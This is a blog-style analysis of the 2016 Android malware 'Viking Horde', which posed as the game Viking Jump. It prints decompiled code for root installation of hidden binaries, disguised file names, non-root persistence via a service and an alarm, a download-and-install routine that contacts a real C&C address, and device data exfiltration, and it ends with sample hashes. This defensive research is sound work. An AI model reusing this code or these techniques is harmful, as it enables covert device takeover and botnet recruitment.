





### Diving into Viking Horde - Android malware analysis

### [~$ cd ..](../)

The malware presented in this blog post appeared on Google Play in 2016. I heard about it thanks to [this article](https://blog.checkpoint.com/2016/05/09/viking-horde-a-new-type-of-android-malware-on-google-play/) published on checkpoint.com.
The malicious app disguises itself as an arcade game named Viking Jump  (The app is still available on alternative app markets)


## Malware installation

As usual, I started by looking for entry points, and found in the [Manifest](AndroidManifest.xml) these lines:

> ```xml
><activity android:configChanges="orientation" android:label="@string/app_name" android:launchMode="singleTop" android:name="org.cocos2dx.cpp.AppActivity" android:screenOrientation="portrait" android:theme="@android:style/Theme.NoTitleBar.Fullscreen">
>	<intent-filter>
>		<action android:name="android.intent.action.MAIN"/>
>		<category android:name="android.intent.category.LAUNCHER"/>
>	</intent-filter>
></activity>
> ```

Since it's a fake game, I was not surprised to see the name of the library cocos2D. I then opened the file `AppActivity` and found:

> ```java
>public class AppActivity extends UtilActivity{
>	protected void onCreate(Bundle paramBundle){
>		super.onCreate(paramBundle);
>	} 
>	protected void onNewIntent(Intent paramIntent){
>		super.onNewIntent(paramIntent);
>	}
>}
> ```

and in the parent class, something jumped out at me:



The malware checks if the device is rooted with the library [RootShell](https://github.com/Stericson/RootShell). However, in any case, some stuffs are installed
without user's agreement while the game is launched.

### Rooted device

The decompiled code of the routine `InstallAsRoot` is as follows:

> ```java
>private boolean InstallAsRoot(){
>	try{
>		InputStream inputStream = getResources().openRawResource(R.raw.aps_exec);
>		InputStream inputStream1 = getResources().openRawResource(R.raw.aps_exec_watch_dog);
>		WriteRawResources(inputStream, Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExecName(this.context));
>		WriteRawResources(inputStream1, Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetWatchDogName(this.context));
>		if (RootCommandExecutor.Execute(this.context)) {
>			return true;
>		}
>		new File(Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExecName(this.context)).delete();
>		new File(Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetWatchDogName(this.context)).delete();
>		return false;
>	}
>	catch (Exception e){
>		try{
>			new File(Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExecName(this.context)).delete();
>			new File(Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetWatchDogName(this.context)).delete();
>			return false;
>		}
>		catch (Exception e) {}
>	}
>	return false;
>}
> ```

The malware loads two binaries (located in res/raw/) and executes them. The first one, `aps_exec`, handles communication with the server, whereas `aps_exec_watch_dog` ensures
the persistency of `aps_exec`.

The routine `RootCommandExecutor.Execute` is as follows:

> ```java
>public static boolean Execute(Context context) {
>	Command command = new Command(0, new String[]{
>		"cat " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetWatchDogName(context) + " > /data/" + Utilities.GetWatchDogName(context),
>		"cat " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExecName(context) + " > /data/" + Utilities.GetExecName(context),
>		"rm " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetWatchDogName(context),
>		"rm " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExecName(context),
>		"chmod 777 /data/" + Utilities.GetWatchDogName(context),
>		"chmod 777 /data/" + Utilities.GetExecName(context),
>		"/data/" + Utilities.GetWatchDogName(context) + " " + Utilities.GetDeviceInfoCommandLineArgs(context) + " /data/" + Utilities.GetExecName(context) + " " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExchangeFileName(context) + " " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + " " + Utilities.GetPhoneNumber(context)});
>	try {
>		RootTools.getShell(true).add(command);
>		return true;
>	} catch (Exception e) {
>		Log.d("CPS", e.getMessage());
>	}
>	return false;
>}
> ```

We can see that binaries a copied in the directory `data`, removed from the external storage, and then executed.

The names are randomly chosen among this set of names, making think about system files:

> ```java
>private static String[] names = {
>	"update.dat",
>	"settings.bin",
>	"update.bin",
>	"settings.dat",
>	"kernel.bin",
>	"core.bin",
>	"core.sys",
>	"hot_fix.dat",
>	"android.bin",
>	"sys.bin",
>	"inet.dat",
>	"wifi.bin",
>	"fix.bin",
>	"sys_driver.sys",
>	"lock.dat" };
> ```

### Non-rooted device

If the device is not rooted, it's more complicated. First, a service is launched:

> ```java
>private boolean InstallAsNonRoot(){
>	if (!IsMyServiceRunning(SystemService.class)) {
>		startService(new Intent(this, SystemService.class));
>	}
>	PendingIntent pendingIntent = PendingIntent.getBroadcast(this, 0, new Intent("INTENT_CPS_SERVICE_RESTART"), 0);
>	AlarmManager alarmManager = (AlarmManager)getSystemService(ALARM_SERVICE);
>	alarmManager.cancel(pendingIntent);
>	alarmManager.setRepeating(AlarmManager.RTC_WAKEUP, System.currentTimeMillis(), 60000L, pendingIntent);
>	return true;
>}
> ```

In the `onStartCommand` routine of this service, some interesting tasks are performed:

> ```java
>public int onStartCommand(Intent paramIntent, int flags, int startId){
>	startForeground(1, new Notification());
>	getApplicationContext().startService(new Intent(getApplicationContext().getApplicationContext(), StartService.class));
>	Work();
>	StartInstallHandrler();
>	SharedPreferences preferences = Utilities.GetPreferences(getApplicationContext());
>	SharedPreferences.Editor editor = Utilities.GetPreferncesEditor(getApplicationContext());
>	if (!preferences.contains("SHARED_PREF_KEY_KNOCKED")) {
>		editor.putInt("SHARED_PREF_KEY_KNOCKED", 100);
>		editor.commit();
>		Knock();
>	}
>	registerReceiver(new BroadcastReceiver(){
>		public void onReceive(Context paramAnonymousContext, Intent paramAnonymousIntent){
>			Log.d("TRACKING", "123");
>			SystemService.this.ref = paramAnonymousIntent.getStringExtra("r");
>		}
>	}, new IntentFilter("RRR_AAA_FFF"));
>	return START_STICKY;
>}
> ```

* Firstly, `Work` loads `aps_exec` as a shared library in order to access routine using reflection
* Secondly, `StartInstallHandrler` loads an APK from tries to install it
* Finally, `Knock` is called, sending a GET request and passing `this.ref` as parameter

Let's take a closer look

### Work routine



A `NativeWrapper` is created:

> ```java
>public NativeWrapper(){
>	System.loadLibrary("aps_exec");
>}
>private native int AddHost(String paramString); 
>private native int Run(); 
>private native int SetDeviceInfo(String paramString);
>private native int SetDeviceInfo2(byte paramByte1, byte paramByte2, byte paramByte3, byte paramByte4);
>private native int SetId(String paramString);
>private native int SetPhoneNumber(String paramString);
>private native int Start(String paramString);
> ```

configured with informations about the device, and started with:

> ```java
>SystemService.this._nw.StartCPS(Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExchangeFileName(SystemService.this.getApplicationContext()));
> ```

where `GetExchangeFileName` returns a file name containing data sent to the C&C server.


### StartInstallHandrler routine

This routine sends a request on **http://176.9.138.114:7777/ecspectapatronum/** in order to get a json array containing informations about apps to install. It then iterates over this list and checks
if the app is already installed or not.



If not, some integrity checks are done, and if it's alright, the app is downloaded and an installation is requested:



### Knock routine 

As we saw in `onStartCommand`, a receiver was registered, setting the value of `this.ref`. In `Knock`, this value is sent to an online service:



Finally, the main malicious activity of the malware is achieved by the binaries `aps_exec` and the watchdog (and subsequent installed files), establishing a 
connection with the C&C server, allowing the attacket to get a remote control on the device.

## A few words about downloaded binaries

The main goal of the malware is to make the infected device a botnet. The malware exfiltrates informations about the device such as:
* power status
* time zone
* phone number
* device id
* (non)rooted
etc.

according to different methods one can found in the class `Utilities`.

According the CheckPoint:

>The next step is to accomplish the main malicious functionality by creating an anonymous proxy connection. The C&C sends a “create_proxy” command with two IP addresses and ports as parameters. These IP addresses are used to open two sockets one for a remote server (which is a client of the botnet exploiting the anonymous proxy) and the other for the remote target. Then it reads the data received from the first socket and channels it to the target host. Using this technique, the malware developer (or someone using this botnet as “malware as a service”) can hide his IP behind the infected device’s IP.

The two binaries work together and on a rooted device, remove then could be a really difficult task.

## Resources

* Md5: 390e66ffaccaa557a8d5c43c8f3a20a9
* SHA256: 254c1f16c8aa4c4c033e925b629d9a74ccb76ebf76204df7807b84a593f38dc0
* File rom theZoo
* [decompiled jar](dec_sources.zip)
* [decompiled jar](dec_sources.zip)
